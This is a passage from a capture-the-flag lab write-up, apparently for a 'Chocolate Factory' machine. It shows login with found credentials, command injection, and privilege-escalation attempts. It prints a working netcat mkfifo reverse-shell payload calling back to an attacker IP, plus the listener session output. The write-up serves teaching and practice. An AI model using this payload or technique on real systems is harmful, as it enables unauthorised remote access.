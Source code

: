 But looks like this is not the password using which we can get access to "charlie's" account. If not for SSH then we can try the same credentials on the login page as well. 

## Gaining Access

These credentials do work on the login page and redirects to a page from where we can execute commands. It clearly appears that we can use this for command injection. So, initially to make sure command injection can be performed we can run some simple commands like `whoami`, `id`, `ls -la` and others. And for all these commands we get a proper response as well. So, the next thing that we can do is use a reverse shell payload, enter it in the command box and start a listener on our local machine to catch the reverse connection. 

We can use the payload:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.91.135 4444 >/tmp/f
```

And then start listening on our local machine using `nc`

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444                
listening on [any] 4444 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.52.108] 46772
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls
home.jpg
home.php
image.png
index.html
index.php.bak
key_rev_key
validate.php
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root),27(sudo)
```

Now, that we have a reverse shell we must upgrade it to an interactive shell. This can be done using the method mentioned over [here](https://0xnirvana.medium.com/gaining-interactive-reverse-shell-w-python-a4bd490735a8).

## Privilege Escalation to Another User

Once we get an interactive shell, we can start looking for the user flag. We can see that the `user.txt` is present in the directory `/home/charlie` but we can't access it as we are currently logged in as `www-data`. 

But we can try to switch user to "charlie" and try to use the same password that we had obtained earlier.

```bash
www-data@chocolate-factory:/home/charlie$ cat user.txt 
cat: user.txt: Permission denied
www-data@chocolate-factory:/home/charlie$ su charlie
Password: 
su: Authentication failure
```
